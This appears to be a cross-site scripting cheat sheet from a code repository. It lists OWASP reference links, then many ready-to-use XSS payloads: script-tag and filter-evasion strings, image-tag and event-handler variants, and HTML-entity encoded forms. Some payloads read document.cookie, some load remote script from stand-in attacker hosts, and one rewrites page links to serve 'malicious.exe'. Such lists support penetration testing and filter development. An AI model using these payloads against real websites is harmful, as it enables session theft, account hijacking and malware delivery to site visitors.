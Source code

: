 * OWASP XSS Links
https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)
https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

* Basic Strings
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
"><script >alert(document.cookie)</script >
"><ScRiPt>alert(document.cookie)</ScRiPt>
"%3cscript%3ealert(document.cookie)%3c/script%3e
<scr<script>ipt>alert(document.cookie)</script>
<script src="http://attacker/xss.js"></script>
http://example/?var=<SCRIPT%20a=">"%20SRC="http://attacker/xss.js"></SCRIPT> 




* Testing Strings

** Reflected
** Filter Evasion 
Inject String, view source, look for <XSS verses &lt;XSS to see if it is vulnerable
'';!--"<XSS>=&{()}

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>

*** Image XSS Strings
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert("XSS")>
<IMG SRC=`javascript:alert("XSS by, 'NCC'")`>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"> << MALFORMED

*** SCR Strings
<IMG SRC=# onmouseover="alert('xxs')">
<IMG SRC= onmouseover="alert('xxs')">
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>

** Encoded Strings
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;
&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&
#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

* Making it count
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a"); 
AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script> 
Downloads exe from badexample





<a onmouseover="alert(document.cookie)">xxs link</a>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">

